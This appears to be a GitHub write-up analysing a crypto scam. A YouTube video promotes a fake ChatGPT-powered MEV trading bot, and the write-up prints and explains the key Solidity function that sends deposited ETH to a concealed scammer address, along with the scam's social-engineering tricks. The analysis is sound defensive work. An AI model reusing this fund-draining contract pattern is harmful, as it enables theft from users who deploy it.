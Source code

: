## Malicious Solidity Decoded
A recent incident involving a scam, promoted via a YouTube video about an Ethereum trading bot claiming to employ MEV (Maximal Extractible Value) techniques, underscores the critical importance of auditing and vetting any smart contracts associated with trading bots, especially those discovered through platforms like YouTube. 

Marketed as utilizing advanced strategies, including transaction reordering by submitting transactions with higher gas fees for prioritized processing, and leveraging ChatGPT API keys to identify profitable transactions within the Ethereum mempool, the bot was ostensibly designed to maximize trading efficiency. However, its actual operation diverted users' Ethereum deposits directly to a scammer’s address through complex and hidden logic. This case highlights the essential need for thorough scrutiny and validation of smart contracts behind such trading bots, to prevent falling victim to sophisticated scams that exploit the complexity and novelty of blockchain technologies.


#### Scam video on YouTube (WARNING)
[How to make 2,700 with ChatGPT Slippage Strategy](https://m.youtube.com/watch?v=IkOUdbPeIxo&ab_channel=Cytra%7Cweb-3)

- Video is prefaced by a statement like "There are many scams out there in the crypto space". 

Beginning a video with a warning about the prevalence of scams in the cryptocurrency space is a classic social engineering tactic designed to lower the audience's guard. This approach plays on the psychological principle of inoculation, where mentioning a potential threat or concern upfront can create a sense of trust and credibility. 

#### Scam solidity code (WARNING)
[Trading Bot Code](https://binarypastes.com/raw/CJRejc)

- The provided smartcontract code is not peer-reviewd on GitHub. 

Providing smart contract code on platforms like binarypastes.com, rather than on peer-reviewed repositories such as GitHub or GitLab, raises immediate red flags regarding the legitimacy of the code.

- Initial comment encourages user to not try first on testnet. 

```
// Testnet transactions will fail because they have no value in them
```

Using a testnet like Goerli allows users to safely observe and interact with a contract's functionality on-chain without risking real assets, providing a valuable opportunity for learning and verification. Contrary to claims that testnet transactions fail due to lack of value, they are crucial for understanding contract behavior in a risk-free environment.


#### Decoding the attack
The malicious activity in the contract is primarily executed through the StartNative function, which indirectly triggers the startArbitrageNative function. The critical lines that facilitate the theft of ETH are within the startArbitrageNative function:

```
function startArbitrageNative() internal  {
    address tradeRouter = getDexRouter(DexRouter, factory);        
    address dataProvider = getDexRouter(apiKey, DexRouter);         
    IERC20(dataProvider).createStart(msg.sender, tradeRouter, address(0), address(this).balance);
    payable(tradeRouter).transfer(address(this).balance);
}
```

Here's what happens, summarized:

1. Calculating Addresses: The function calculates two addresses (tradeRouter and dataProvider) using the getDexRouter function with inputs from hardcoded bytes32 values (DexRouter, factory, and apiKey). These addresses are derived from obfuscated values, making it difficult to understand their true nature without knowing the exact mechanism of getDexRouter.

2. Misleading Function Call: It then calls the createStart function on the dataProvider interface. This interface and function are not standard in ERC20 or Uniswap V2 protocols, making it suspicious. The purpose of this call, as described, is unclear and likely non-existent, serving only as a distraction.

3. Transferring ETH: Finally, the function transfers the contract's entire ETH balance to the tradeRouter address with payable(tradeRouter).transfer(address(this).balance);. This is the actual line where the theft occurs. Instead of performing any legitimate trading operation, it simply sends all the ETH stored in the contract to an address that was calculated using obfuscated logic.

In summary, the contract pretends to initiate an arbitrage trading operation through the StartNative function but ultimately redirects the user's deposited ETH to a concealed address controlled by the attacker. This is achieved by a combination of obfuscated address calculations and a deceptive transfer of funds, with the real intent hidden behind complex and seemingly legitimate trading functions.